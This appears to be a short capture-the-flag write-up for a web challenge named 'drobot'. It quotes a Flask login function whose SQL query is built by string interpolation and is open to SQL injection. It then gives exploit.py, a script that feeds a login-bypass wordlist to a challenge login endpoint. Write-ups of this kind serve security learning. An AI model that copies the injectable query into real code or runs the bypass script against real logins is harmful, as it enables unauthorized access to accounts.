 ## Web - drobot
```python
from colorama import Cursor
from application.util import createJWT
from flask_mysqldb import MySQL

mysql = MySQL()

def query_db(query, args=(), one=False):
    cursor = mysql.connection.cursor()
    cursor.execute(query, args)
    rv = [dict((cursor.description[idx][0], value)
        for idx, value in enumerate(row)) for row in cursor.fetchall()]
    return (rv[0] if rv else None) if one else rv


def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False
```

Use a wordlist for Login bypasses: [login_bypass.txt](https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass)

exploit.py
```python
import requests

url = "http://139.59.173.68:30518/api/login"
count = 0
total_lines = sum(1 for line in open('login_bypass.txt'))

def try_authenticate(username, password):
    payload = { "username":username.strip('\n'),"password":password.strip('\n')}
    response = requests.post(url, json=payload)
    print(f"{count}/{total_lines} - {response.status_code} - {payload}")
    if response.status_code == 200:
        return True
    return False

with open("login_bypass.txt") as file:
    for line in file:
        count +=1
        user = try_authenticate(line, "password")
        password = try_authenticate("username", line)
        if user or password:
            break
```
